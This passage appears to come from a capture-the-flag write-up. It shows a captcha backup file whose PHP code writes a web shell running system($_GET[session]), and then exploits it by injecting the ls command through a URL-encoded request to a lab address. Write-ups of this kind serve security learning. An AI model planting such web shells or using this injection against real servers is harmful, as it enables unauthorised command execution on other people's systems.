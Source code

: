 <a href="/images/gds7-4.png"><img src="/images/gds7-4.png"></a>

## Exploiting a Command Injection Vulnerability:

Since we are now able to download the backup of the captcha, let's go ahead and download that file, and see what it contains.

```console
root@kali:~/gds# file captcha.bak 
captcha.bak: ASCII text
root@kali:~/gds# cat captcha.bak 
file_put_contents($session_path. /captcha, serialize($_SESSION)); 
file_put_contents($session_path. /($_SESSION).php, ?php system($_GET[session]); ? 
```

Quickly I realize that the Captcha is utilizing the PHP __GET__ parameter which is vulnerable to [Command Injection](https://www.owasp.org/index.php/Command_Injection)!

So, let's attempt a command injection by trying to inject the [ls](http://linuxcommand.org/man_pages/ls1.html) command to list the files on the Captcha Machine.

We can do so by entering the following at the end of the url:

```php
($_SESSION).php?session=ls
```

Now mind you, that since we are injecting this via URL it's good practice to [URL Encode](https://www.w3schools.com/tags/ref_urlencode.asp) some of the characters to prevent any issues during decoding/transfer of data to the server.

So the command we will issue - when URL Encoded - will be:

```
%28$_SESSION%29.php?session=ls
```

Thus our URL will look like the following:

```
http://192.168.0.7/sources/0a5ed93350dbf3915157abb698d9bfb3426529ada1528a5a0158f0081df4226f88da999df793e9ab15004cb79f2dd833320cdd2ee3e6e05f9e7b6b91f8d1b8b4622d3e9fb9b8cef72c76664bc5631af6eb54cb138ab8251190dd9badac178e1c8f02a6/%28$_SESSION%29.php?session=ls
```
